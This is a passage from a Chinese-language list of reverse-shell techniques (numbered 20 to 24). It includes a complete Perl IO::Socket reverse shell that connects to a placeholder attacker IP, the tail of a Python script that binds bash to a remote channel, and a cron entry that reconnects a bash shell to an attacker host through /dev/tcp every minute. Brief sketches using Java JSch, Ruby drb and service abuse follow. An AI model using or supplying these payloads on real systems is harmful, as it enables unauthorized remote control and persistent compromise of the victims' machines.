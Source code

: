 ```text
os.dup2(chan.makefile('wb',-1).fileno(),1)
os.dup2(chan.makefile('rb',-1).fileno(),0)
os.dup2(chan.makefile_stderr('rb',-1).fileno(),2)
# 启动bash shell
os.execvp('/bin/bash',['/bin/bash','-i'])
```

### 20. 使用Perl的`IO::Socket`模块

Perl的`IO::Socket`模块可以用于创建网络连接，从而实现反弹shell。

```text
#!/usr/bin/perl -w
use strict;
use IO::Socket::INET;
my $remote_ip ='x.x.x.x';# 攻击者IP
my $remote_port =1234;# 监听端口
my $sock = IO::Socket::INET->new(PeerAddr => $remote_ip,PeerPort => $remote_port,Proto =>'tcp');
die"Could not create socket: $!\n"unless $sock;
# 将标准输入、输出和错误输出重定向到socket
open STDIN,">&=$sock";
open STDOUT,">&=$sock";
open STDERR,">&=$sock";
# 启动shell
exec("/bin/bash -i");
```

### 21. 利用Java的`JSch`库进行SSH反弹（类似paramiko）

`JSch`是一个Java实现的SSH2库，可以用于创建SSH连接。如果目标系统允许SSH连接，并且攻击者拥有凭据，那么可以使用`JSch`进行SSH反弹。

因为涉及的内容较多，包括设置SSH服务器、处理认证等，不再给出完整的Java代码示例。但基本思路是：在攻击者端设置一个SSH服务器，然后在目标端使用`JSch`库连接到该服务器，并开启一个反向隧道。

### 22. 使用Ruby的`drb`（Distributed Ruby）进行反弹

Ruby的`drb`（Distributed Ruby）可以用于创建分布式对象系统。虽然不常用于反弹shell，但在某些场景下可能是一个有趣的选择。

**注意**：由于`drb`不是专门用于反弹shell的，因此实现起来可能比较复杂，并且需要攻击者设置一个DRuby服务器。

### 23. 利用目标系统的计划任务或cron作业

如果攻击者能够在目标系统上添加计划任务或cron作业，那么可以设置一个任务来执行反弹shell命令。

例如，在Linux系统上，可以使用`crontab -e`来添加一个定时任务：

```text
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/x.x.x.x/1234 0>&1'
```

**注意**：这种方法需要攻击者具有在目标系统上添加计划任务或cron作业的权限。

### 24. 使用目标系统的服务或守护进程

某些服务或守护进程可能允许攻击者配置外部命令或脚本的执行。攻击者可以利用这些服务来执行反弹shell命令。
